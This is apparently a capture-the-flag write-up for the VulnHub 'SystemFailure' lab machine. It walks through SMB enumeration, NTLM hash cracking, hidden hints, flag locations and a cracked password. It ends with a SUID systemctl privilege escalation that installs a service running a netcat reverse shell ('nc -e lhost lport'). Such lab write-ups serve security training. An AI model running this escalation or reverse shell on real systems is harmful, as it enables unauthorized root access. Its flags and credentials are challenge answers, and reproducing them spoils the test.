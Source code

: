 SystemFailure | [0xJin](https://twitter.com/0xJin)
=======================
**Source:** [vulnhub](https://www.vulnhub.com/entry/system-failure-1,654/)

Looting Information
-------------------

- as usual `nmap`
- smbenum by `enum4linux`

```sh
smbclient //SystemFailure/anonymous
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Dec 17 21:25:14 2020
  ..                                  D        0  Wed Dec 16 14:58:53 2020
  share                               N      220  Thu Dec 17 21:25:14 2020

		7205476 blocks of size 1024. 5366092 blocks available
smb: \> mget *
Get file share? y
getting file \share of size 220 as share (43.0 KiloBytes/sec) (average 43.0 KiloBytes/sec)
smb: \> quit
```

`hint1`
cat `share`
-----------
<!-- 89492D216D0A212F8ED54FC5AC9D340B -->
```
Guys, I left you access only here to give you my shared file, you have little time, I leave you the login credentials inside for FTP you will find some info, you have to hurry!

NTLMHASH

Admin
```
Crack NTLM hash
---------------

cred for : ssh & ftp
<!-- admin:qazwsxedc -->
```sh
john --show --format=NT hash
admin: ...  
1 password hash cracked, 0 left
```

`hint2`
- /Syst3m/here.txt 
```
(I l3f7 y0u 0ur s3cr3t c0d3)+(I l3f7 17 ju57 f0r y0u)+(t0 m4k3)x(7h1ng5 s4f3r.)

-Admin
```
`hint3`

- Refer to `/home/admin/Syst3m/F4iluR3/file0189.txt` 

`...to create super-soldiers-J310MIYla1aVUaSV-`

`hint4`

```sh
admin@SystemFailure:/var/www/html/area4$ cat Sup3rS3cR37/System/note.txt 

Guys, I left something here for you, I know your skills well, we must try to hurry. Not always everything goes the right way.

-Admin
```
[useful.txt](http://systemfailure/area4/Sup3rS3cR37/System/useful.txt)


Adv. Information
----------------

- /home/jin/secret.txt
`Reminder: I had left something in /opt/system`


FLAG
----
<!-- 1871828204892bc09be79e1a02607dbf -->
- user.txt | /home/valex/ 

- user2.txt | /home/jin/
<!-- 172c7b08a7507f08bab7694fd632839e -->

- .superfinalflag.txt 

```sh
╔═╗┬ ┬┌─┐┌┬┐┌─┐┌┬┐  ╔═╗┌─┐┬┬  ┬ ┬┬─┐┌─┐
╚═╗└┬┘└─┐ │ ├┤ │││  ╠╣ ├─┤││  │ │├┬┘├┤ 
╚═╝ ┴ └─┘ ┴ └─┘┴ ┴  ╚  ┴ ┴┴┴─┘└─┘┴└─└─┘

I knew you would succeed.

Oh no.

2527f167fe33658f6b976f3a4ac988dd

Follow me and give feedback on Twitter: 0xJin

L1N5c3QzbUY0aUx1UjIzNTEyNA==
```

check this out: `L1N5c3QzbUY0aUx1UjIzNTEyNA==` > [/Syst3mF4iLuR235124](https://i.giphy.com/media/lp3GUtG2waC88/giphy.webp)


- root.txt `hint5` 
`If you are reading this flag, without being rooted, it is not valid. You must enter after send me a picture you entered jin, and tag me. Good luck.`

**use superpower to find**
```sh 
find / -iname "*.txt" 2> /dev/null
```


Ref Section
-----------

-e nsr
```
The -e flag gives you more options to test with. Sometimes users have passwords that are so amazingly bad that you have to account for them outside the normal scope of your wordlist. The letters nsr after the -e flag correspond to more ways to test. n stands for "null," meaning that Hydra will test for a user not having a password. s stands for "same." Hydra will test the same password as the username, when using s. r stands for "reverse." If a user thought that they were clever and reversed their bad password, Hydra will catch that too. 
```

SUID `systemctl` 
----------------

[GTFO](https://gtfobins.github.io/gtfobins/systemctl/)



`/tmp/reverse.service`
```sh
[Service]
Type=oneshot
ExecStart=/bin/sh /tmp/nc
[Install]
WantedBy=multi-user.target
```

`/tmp/nc`
```sh
nc -e lhost lport
```
```sh
systemctl link /tmp/reverse.service

# before that run listener from localhost

systemctl enable --now /tmp/reverse.service
```
